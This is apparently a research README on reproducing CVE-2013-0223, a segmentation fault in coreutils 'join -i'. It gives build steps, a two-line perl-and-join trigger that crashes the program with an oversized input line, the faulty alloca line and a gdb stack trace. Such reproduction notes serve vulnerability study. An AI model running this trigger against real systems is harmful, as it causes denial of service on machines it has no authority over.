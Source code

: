 # CVE-2013-0223

## Experiment Environment

CentOS 6.4

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2013-0223/coreutils-8.4-patched.tar.gz

tar -xvf coreutils-8.4-patched.tar.gz
cd coreutils-8.4
./configure
make
```

## Problems in Installation & Configuration

See [CVE-2013-0222](../CVE-2013-0222)

## How to trigger vulnerability

```
perl -e 'print "1","A"x50000000,"\r\n\r\n"' > /tmp/test.txt
join -i /tmp/test.txt /tmp/test.txt
```

## PoCs

[(CVE-2013-0223) VUL-1: CVE-2013-0223: coreutils: segmentation fault in "join -i" with long line input](https://bugzilla.novell.com/show_bug.cgi?id=798541)

## Vulnerability Details & Patch

### Root Cause

```
join.c:495

	copy[i] = alloca (len[i] + 1);
```

### Stack Trace

```
(gdb) info stack
#0  0x0804a039 in keycmp (line1=<value optimized out>, line2=<value optimized out>, jf_1=0, jf_2=0) at join.c:500
#1  0x0804b3d4 in system_join (argc=4, argv=0xbf9a2214) at join.c:852
#2  main (argc=4, argv=0xbf9a2214) at join.c:1354
```

## References
